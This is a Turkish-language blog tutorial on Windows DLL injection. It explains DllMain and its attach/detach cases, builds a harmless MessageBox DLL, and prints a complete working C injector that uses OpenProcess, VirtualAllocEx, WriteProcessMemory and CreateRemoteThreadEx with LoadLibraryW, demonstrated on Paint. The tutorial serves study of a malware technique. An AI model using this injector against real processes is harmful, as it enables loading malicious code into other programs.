




Merhabalar. Bu blogta **DLL Injection** tekniğini inceleyeceğiz.

## **DLL Nedir?**

DLL (Dynamic Link Library), aynı anda birden fazla program tarafından kullanılan kod ve veri içeren kütüphanelerdir. Windows işletim sisteminde bir program çalıştırdığınızda veya Windows işletim sistemi bir işlevi yerine getirmek istediği zaman DLL'leri şeyi kullanır. 

Bu kütüphaneler, genellikle yukarıda bahsettiğim gibi birden fazla uygulamada ortak olan kodları, işlevleri veya kaynakları içerir. Bu, kod tekrarını azaltır ve uygulama boyutlarını küçültür. DLL'ler, yalnızca gerektiğinde belleğe yüklenir ve bu da sistem kaynaklarının verimli kullanılmasını sağlar. 

Artık teorik olarak **DLL**'in ne olduğunu biliyoruz ama bu teknikte ne yapıyoruz? Bir de buna bakalım.

## DLL kodlama

Bu konuda sadece "DLL budur" diyerek konuyu teorik olarak bırakmak istemiyorum. DLL'in ne olduğu kafamızda daha netleşmesi açısından Visual Studio ortamında DLL projesi oluşturacağız ve basitçe kodlamasını yapacağız. Ardından ise DLL Injection yöntemi ile hazırladığımız DLL'i enjekte edeceğiz.  **"DLL için kodlamayı nasıl yapacağız?"** gibi sorularla kafanızda bir şüphe oluşmasın. DLL'ler C/C++ dilleriyle kodlanıyor, dolayasıyla geliştirmemiz zor olmayacak.

Visual Studio açalım ve **Create a new Project**'e tıklayalım ve arama yerine 'Dynamic' diye aratalım: 



Ardından bunu seçelim ve projemize isim vererek projeyi oluşturalım. Proje oluşturulduktan sonra aşağıdaki kodlar bizi karşılıyor olacak:



DLL'lerin main alanı DllMain'dir. Tıpkı C projelerimizde nasıl main fonksiyonuna kod yazıyorsak, DLL projelerinde de başlangıç noktası burasıdır. Ancak burada bir fark var: DllMain fonksiyonu, birkaç özel parametre alır ve bu parametreler DLL'in yaşam döngüsünü yönetmek için kullanılır.

DllMain'in parametreleri:

- **hModule**: Bu parametre, DLL'nin yüklendiği modülün bir tanıtıcısıdır (handle). Bu, genellikle DLL'nin bellek adresine işaret eder ve işlem boyunca benzersizdir.
- **ul_reason_for_call**: Bu, DLL'nin hangi sebeple çağrıldığını belirtir. Özellikle bunu aklınızda tutun çünkü birazdan aşağıda daha detaylı ele alacağım. 
- **lpReserved**: Yükleme ve boşaltma sırasında ek bilgi taşımak için kullanılır. Bu parametre genellikle nadiren kullanılır.

DLLMain içerisindeki switch-case yapısı, ul_reason_for_call parametresine göre çalışır. Bu parametre, DLL'in hangi durumda olduğunu belirtir. Burada dört farklı durum vardır ve bunları sırayla inceleyelim:

- **DLL_PROCESS_ATTACH**: Bu, DLL'nin bir işlem tarafından ilk kez yüklendiği anlamına gelir. Yani program çalışırken DLL'yi kullanmaya başladığında buraya geliriz.
- **DLL_THREAD_ATTACH**: Eğer programınız içinde yeni bir thread oluşturulursa, bu durum devreye girer. Örneğin, thread’e özel veriler veya ayarlar yapmak isterseniz bu durumda kod yazabilirsiniz.
- **DLL_THREAD_DETACH**: Bu, bir iş parçacığı sona erdiğinde çağrılır. İş parçacığıyla ilişkili özel kaynakları serbest bırakmak veya temizlik işlemleri yapmak için burayı kullanabilirsiniz.
- **DLL_PROCESS_DETACH**: DLL artık kullanılmadığında veya program kapatıldığında bu durum gerçekleşir. Yani program kapanmadan önce ne gerekiyorsa bu kısımda yapılır.

Son olarak, TRUE döndürmek DLL'in başarıyla yüklendiğini veya çalıştığını belirtir. Eğer bir sorun oluştuysa, FALSE döndürebiliriz. Ancak TRUE genellikle varsayılan seçenektir.

Bizim kodlama için ilgileneceğimiz durum, **DLL_PROCESS_ATTACH** olacaktır. Şimdi burada basit bir kodlama yapalım:



Tekrarlamaktan zarar gelmez, **DLL_PROCESS_ATTACH** alanında kodladığıma dikkat edin. Burada basitçe MessageBoxA kullanarak bir **"Ben zararsiz bir dllim"** mesajını ekrana bastırıyoruz (mesajı yazarken ben bile zararsız olduğuna inandım). Hedef process bu DLL yüklediği zaman bu kod çalıştırılmış olacak. 

**Solution Explorer**'da projemize sağ tıklayıp **Rebuild** seçeceğine tıklayalım ve /x64/Debug dizininden oluşturulan .dll'e göz atalım:



Göründüğü gibi bir **.dll** ve **.pdb** dosyaları elde ediyoruz. Bu .dll dosyasını erişebileceğiniz başka bir yere kaydedebilirsiniz. Tekniği kullanırken .dll dosyanın tam yoluna ihtiyacımız olacak. 

Şimdi ise tekniğimizi inceleyelim.


## **DLL Injection**

Artık temelde bir DLL'in ne olduğunu ve basitçe kodlamasını biliyoruz. 

DLL Injection tekniği, bir process içerisine zararlı DLL'in enjekte edilmesi içerir. Tıpkı önceki konumuzda yaptığımız gibi zararlı shellcode'u enjekte etmek gibi düşünün. 

Yüklenen zararlı DLL ile artık amacınız ne ise ona göre Process'in davranışını değiştirebilirsiniz. Kulağada ne kadar da sadece Malware Development için kullanılan bir teknik gibi algılansa da debugging için amaçlarla da kullanıldığını burada vurgulamak isterim.

Hatırlarsanız önceki konumuzda elimizdeki shellcode'u hedef process'e gömüyorduk bellek aracılığıyla. Dediğim gibi bu yöntemi de bunun gibi düşünebilirsiniz. Hedef Process belleğine DLL'imizin yolunu gömeceğiz ve ardından Process'in LoadLibraryW çalıştırmasını sağlayarak zararlı DLL'i yüklemiş olacak.

## Kod

```c
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[]) {
	DWORD PID = 0;
	HANDLE HandleProcess = NULL;
	HANDLE HandleThread = NULL;
	LPVOID RemoteBuffer = NULL;
	LPTHREAD_START_ROUTINE LoadLibraryAddress = NULL;
	wchar_t DllPath[MAX_PATH] = L"C:\\Users\\bekoo\\bekoo.dll";
	DWORD DllPathSize = sizeof(DllPath);
	if (argc < 2) {
		printf("Usage: %s <PID>\n", argv[0]);
		return 1;
	}
	PID = atoi(argv[1]);
	printf("Injecting DLL into PID %d\n", PID);

	LoadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
	if (LoadLibraryAddress == NULL) {
		printf("Failed to get LoadLibraryW address\n");
		return 1;
	}
	printf("LoadLibraryW address: 0x%p\n", LoadLibraryAddress);

	HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (HandleProcess == NULL) {
		printf("Failed to open process\n");
		return 1;
	}

	RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, DllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (RemoteBuffer == NULL) {
		printf("Failed to allocate memory in remote process\n");
		return 1;
	}

	if (!WriteProcessMemory(HandleProcess, RemoteBuffer, DllPath, DllPathSize, NULL)) {
		printf("Failed to write DLL path to remote process\n");
		return 1;
	}

	HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, LoadLibraryAddress, RemoteBuffer, 0, NULL, NULL);
	if (HandleThread == NULL) {
		printf("Failed to create remote thread\n");
		return 1;
	}

	WaitForSingleObject(HandleThread, INFINITE);
	printf("DLL injected\n");
	return 0;
}
```
Eğer [Shellcode Execution](https://0xbekoo.github.io/post/shellcode-execution/) blogumu okudu iseniz bu kodlar yabancı gelmeyecektir. Çünkü neredeyse aynı şeyleri yapıyoruz birkaç şey dışında. Önceki konuda LoadLibrary gibi şeyler kullanmadık. Şimdi buna bir bakalım:

```c
LoadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
if (LoadLibraryAddress == NULL) {
	printf("Failed to get LoadLibraryW address\n");
	return 1;
}
printf("LoadLibraryW address: 0x%p\n", LoadLibraryAddress);
```

Burada **GetProcAddress** ile **kernel32.dll** içerisinden LoadLibraryW API'in adresini elde ediyoruz ve alınan adres **LoadLibraryAddress** değişkenine aktarılıyor. 

Daha sonra bir if kontrolü yapıyoruz. Eğer GetProcAddress NULL döndürmüş ise fonksiyonun adresi alınmamış demektir ve bu yüzden programı bir hata mesajı ile kapatıyoruz. "Eee? Bu adresi nerede kullanıyoruz?" diye bir soru gelebilir hemen göstereyim:

```c
HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, LoadLibraryAddress, RemoteBuffer, 0, NULL, NULL);
if (HandleThread == NULL) {
	printf("Failed to create remote thread\n");
	return 1;
}
```

Bu adresi, CreateRemoteThreadEx'in dördüncü parametresi olan **lpStartAddress**'e ve ayrılan bellek adresini **lpParameter** olarak verdiğime dikkat edin. Buradaki amacımız hedef Process'e verilen adres, elde ettiğimiz LoadLibraryW fonksiyonun adresidir. Bu fonksiyon kullanarak hazırladığımız DLL'i yüklenmesi sağlanacaktır. RemoteBuffer değeri ise LoadLibraryW fonksiyonu için parametre olarak veriyoruz.  

Diğer kod parçaları zaten önceki blogumda anlattığım gibi aynı. 

## **Sonuç**

<video width="1280" height="720" controls>
    <source src="../../../images/posts/dll-injection/video/video.mp4" type="video/mp4">
</video>

Sonuçta gördüğümüz gibi paint uygulamasının PID değerini verdiğimizde DLL'i enjekte ediyor ve mesajımızı görüyoruz.

Umarım sizler için faydalı olmuştur iyi çalışmalar dilerimm.

## **References**

- [Microsoft Learn - DLL nedir?](https://learn.microsoft.com/tr-tr/troubleshoot/windows-client/setup-upgrade-and-drivers/dynamic-link-library)
